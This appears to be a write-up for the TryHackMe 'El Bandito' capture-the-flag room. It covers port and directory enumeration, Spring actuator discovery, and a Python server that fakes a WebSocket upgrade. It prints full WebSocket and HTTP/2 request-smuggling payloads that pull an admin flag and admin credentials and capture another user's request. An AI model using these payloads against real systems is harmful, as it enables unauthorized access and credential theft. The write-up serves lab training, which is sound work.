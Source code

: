 ## THM CTF - El Bandito

Flags:

> Whats the first web flag?

> Whats the second web flag?

---

We can start changing local DNS to easily handle all the process.
```
sudo nano /etc/hosts
```
Add the record:
```
xxx.xxx.xxx.xxx	   bandito.thm
```
Now we can proceed with an ```Nmap``` scan.
```
sudo nmap -sS -T4 bandito.thm -p-
```
We discovered four open ports, and we can list the services they provide.
```
sudo nmap -sS -T4 bandito.thm -p22,80,631,8080 -sV
```
```
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp   open  ssl/http El Bandito Server
631/tcp  open  ipp      CUPS 2.4
8080/tcp open  http     nginx
```
We proceed with a ```Gobuster``` enumeration, but we encounter some challenges on ```port 80```. However, we managed to obtain some results on both ```port 80 (https)``` and ```port 8080 (http)```.

### Port 80
```
gobuster dir -u https://bandito.thm:80/ -w /usr/share/wordlists/dirb/common.txt -x html,js,txt,php,db,json,log -k
```
using ```-k``` to skip SSL certificate verification.

```
/access
/login
/logout
/messages
/ping
/save
/static
```

### Port 8080
```
gobuster dir -u http://bandito.thm:8080 -w /usr/share/wordlists/dirb/common.txt -x html,js,txt,php,db,json,log
```
```
/assets
/health
/info
/services.html
/token
```
Searching online, health and info are possibile indicators of a ```Spring Actuators```, suggesting this is a ```Spring app```.

We can try some actuators suggested by this page:

[Spring Actuators](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/spring-actuators.html)

```
/dump, /trace, /logfile, /shutdown, /mappings, /env, /actuator/env, /restart, and /heapdump
```
```/mappings``` is the winner, returning us with some important info.
```
/admin-creds
/admin-flag
/isOnline
```
Let's continue on ```port 8080``` for now.
```
http://bandito.thm:8080/
```
On ```port 8080``` there is an actual site.
```
service.html

http://bandito.websocket.thm: OFFLINE
http://bandito.public.thm: ONLINE
```
In this page there is an interesting JS code:
```
fetch(`/isOnline?url=${serviceUrl}
```
which can be used in an attack.
```
burn.html
```
This page seems the only way in for now, however when we try to execute an operation on the form, we receive an error in the console:
```
This service is not working on purpose ;) 
WebSocket is closed now
```
It might seems that we are on the right track and we need to hack a ```web socket```.

Let's setup an ```attacker's web server``` like we've seen in the previous lessons.

[Request Smuggling: WebSockets](https://tryhackme.com/room/wsrequestsmuggling)
```
import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

if len(sys.argv)-1 != 1:
    print("""
Usage: {} 
    """.format(sys.argv[0]))
    sys.exit()

class Redirect(BaseHTTPRequestHandler):
   def do_GET(self):
       self.protocol_version = "HTTP/1.1"
       self.send_response(101)
       self.end_headers()

HTTPServer(("", int(sys.argv[1])), Redirect).serve_forever()
```
We can open ```Burpsuite``` and craft a payload ***(remember to toggle Update Content-Length option and to leave the right amount of \r\n)***
```
GET /isOnline?url=http://10.11.123.90:5555 HTTP/1.1
Host: bandito.thm:8080
Sec-WebSocket-Version: 13
Upgrade: WebSocket
Connection: Upgrade

GET /admin-flag HTTP/1.1
Host: bandito.thm:8080


```
In the response we find the ```first flag```.

Now we can try the same approach with ```/admin-creds```.
```
GET /isOnline?url=http://10.11.123.90:5555 HTTP/1.1
Host: bandito.thm:8080
Sec-WebSocket-Version: 13
Upgrade: WebSocket
Connection: Upgrade

GET /admin-creds HTTP/1.1
Host: bandito.thm:8080


```
In the response we find some useful credentials that we can try on the page:
```
https://bandito.thm:80/access
```
We need to specify the port because there is an HTTPS connection on port 80 instead of the standard 443.

And we're in!

In the landing page we can find a chat.

Let's analyse the page. It seems that the only JS is:
```
/static/messages.js
```
In which we find:
```
/getMessages
/sendMessage
```
Now we can try to craft a payload with send message in ```Burpsuite``` following the instructions in the previous lessons ***(remember to toggle Update Content-Length option and to leave the right amount of \r\n)***

[HTTP/2 Request Smuggling](https://tryhackme.com/room/http2requestsmuggling)
```
POST / HTTP/2
Host: bandito.thm:80
Cookie: session=eyJ1c2VybmFtZSI6ImhBY2tMSUVOIn0.Z7HByQ.8SxkL235l7cHtvk1JocEEYU2aWk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Content-Length: 0

POST /send_message HTTP/1.1
Host: bandito.thm:80
Cookie: session=eyJ1c2VybmFtZSI6ImhBY2tMSUVOIn0.Z7HByQ.8SxkL235l7cHtvk1JocEEYU2aWk
Content-Length: 900
Content-Type: application/x-www-form-urlencoded

data=




```
This payload might return a ```503 error``` because the event to smuggle the content hasn’t happened yet.
We need to resend the request until the ```/getMessages``` page displays the content we want to smuggle, aka the second flag!
